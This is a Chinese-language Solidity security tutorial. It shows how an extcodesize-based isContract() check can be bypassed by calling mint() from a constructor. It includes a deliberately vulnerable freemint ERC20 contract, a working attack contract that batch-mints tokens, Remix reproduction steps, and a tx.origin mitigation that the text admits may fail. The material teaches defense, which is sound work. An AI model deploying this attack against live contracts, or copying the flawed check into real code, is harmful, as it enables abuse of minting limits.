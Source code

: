 ```yaml
---
title: S08. 绕过合约检查
tags:
  - solidity
  - security
  - constructor
---
```


# WTF Solidity 合约安全: S08. 绕过合约长度检查

我最近在重新学 Solidity，巩固一下细节，也写一个“WTF Solidity 合约安全”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍绕过合约长度检查，并介绍预防的方法。

## 绕过合约检查

很多 freemint 的项目为了限制科学家（程序员）会用到 `isContract()` 方法，希望将调用者 `msg.sender` 限制为外部账户（EOA），而非合约。这个函数利用 `extcodesize` 获取该地址所存储的 `bytecode` 长度（runtime），若大于0，则判断为合约，否则就是EOA（用户）。

```solidity
// 利用 extcodesize 检查是否为合约
function isContract(address account) public view returns (bool) {
    // extcodesize > 0 的地址一定是合约地址
    // 但是合约在构造函数时候 extcodesize 为0
    uint size;
    assembly {
        size := extcodesize(account)
    }
    return size > 0;
}
```

这里有一个漏洞，就是在合约在被创建的时候，`runtime bytecode` 还没有被存储到地址上，因此 `bytecode` 长度为0。也就是说，如果我们将逻辑写在合约的构造函数 `constructor` 中的话，就可以绕过 `isContract()` 检查。

![image1](./img/S08-1.png)

## 漏洞例子

下面我们来看一个例子：`ContractCheck`合约是一个 freemint ERC20 合约，铸造函数 `mint()` 中使用了 `isContract()` 函数来阻止合约地址的调用，防止科学家批量铸造。每次调用 `mint()` 可以铸造 100 枚代币。

```solidity
// 用extcodesize检查是否为合约地址
contract ContractCheck is ERC20 {
    // 构造函数：初始化代币名称和代号
    constructor() ERC20("", "") {}
    
    // 利用 extcodesize 检查是否为合约
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 的地址一定是合约地址
        // 但是合约在构造函数时候 extcodesize 为0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint函数，只有非合约地址能调用（有漏洞）
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

我们写一个攻击合约，在 `constructor` 中多次调用 `ContractCheck` 合约中的 `mint()` 函数，批量铸造 `1000` 枚代币：

```solidity
// 利用构造函数的特点攻击
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // 当合约正在被创建时，extcodesize (代码长度) 为 0，因此不会被 isContract() 检测出。
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // 合约创建好以后，extcodesize > 0，isContract() 可以检测
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

如果我们之前讲的是正确的话，在构造函数调用 `mint()` 可以绕过 `isContract()` 的检查成功铸造代币，那么函数将成功部署，并且状态变量 `isContract` 会在构造函数赋值 `false`。而在合约部署之后，`runtime bytecode` 已经被存储在合约地址上了，`extcodesize > 0`， `isContract()` 能够成功阻止铸造，调用 `mint()` 函数将失败。

## `Remix` 复现

1. 部署 `ContractCheck` 合约。

2. 部署 `NotContract` 合约，参数为 `ContractCheck` 合约地址。

3. 调用 `ContractCheck` 合约的 `balanceOf` 查看 `NotContract` 合约的代币余额为 `1000`，攻击成功。

4. 调用`NotContract` 合约的 `mint()` 函数，由于此时合约已经部署完成，调用 `mint()` 函数将失败。

## 预防办法

你可以使用 `(tx.origin == msg.sender)` 来检测调用者是否为合约。如果调用者为 EOA，那么`tx.origin`和`msg.sender`相等；如果它们俩不相等，调用者为合约。在[eip-3074](https://eips.ethereum.org/EIPS/eip-3074)中，这样检查合约的方式，可能会失效。

```solidity
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## 总结

这一讲，我们介绍了合约长度检查可以被绕过的漏洞，并介绍预防的方法。如果一个地址的 `extcodesize > 0`，则该地址一定为合约；但如果 `extcodesize = 0`，该地址既可能为 `EOA`，也可能为正在创建状态的合约。
